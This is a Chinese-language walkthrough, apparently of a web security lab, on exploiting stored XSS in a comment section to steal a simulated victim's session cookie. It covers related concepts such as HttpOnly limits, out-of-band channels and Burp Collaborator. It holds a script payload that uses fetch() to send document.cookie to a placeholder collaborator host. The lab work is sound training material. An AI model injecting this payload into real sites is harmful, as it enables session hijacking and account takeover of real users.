





# 题意


该实验中的评论区存在存储型XSS。一个模拟的受害用户会浏览所有已发出的评论。利用漏洞获取受害者的session cookie，然后伪装成受害者登录。
# 解题思路
step1:打开collaborator模块并复制生成的子域名



step2:在评论区注入payload
```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

其中BURP-COLLABORATOR-SUBDOMAIN替换成第一步复制的子域名


step3：获取受害用户cookie

回到collaborator界面，点击poll now，从http消息中获得受害用户cookie


step4:利用intercept模块，修改请求中的cookie即可
# 知识点

## 利用XSS获取cookie

大多数web应用程序都用cookie来处理session。攻击者可以利用xss漏洞来发送受害者的cookie到自己的域，然后手动注入cookie到浏览器里从而伪装成受害者。

在实际运用中，该方法可能遇到如下限制：

1. 受害者可能未登录


2. 应用程序用HttpOnly标志将cookie从JS中隐藏了。

3. session可能加密

4. session可能超时。


## OOB漏洞
带外通道技术（Out-Of-Band）
带外通道技术（OOB）让攻击者能够通过另一种方式来确认和利用没有直接回显的漏洞。
这一类漏洞中，攻击者无法通过恶意请求直接在相应包中看到漏洞的输出结果。
带外通道技术通常需要脆弱的实体来生成带外的TCP/UDP/ICMP请求，然后，攻击者可以通过这个请求来提取数据。

正常的通信信道（Inband）如下图



oob如下图




## burpsuite collaborator模块

burpsuite的collaborator模块扮演的就是上图中的黑客的服务器角色。主要使用流程在解题思路中有描述，不赘述。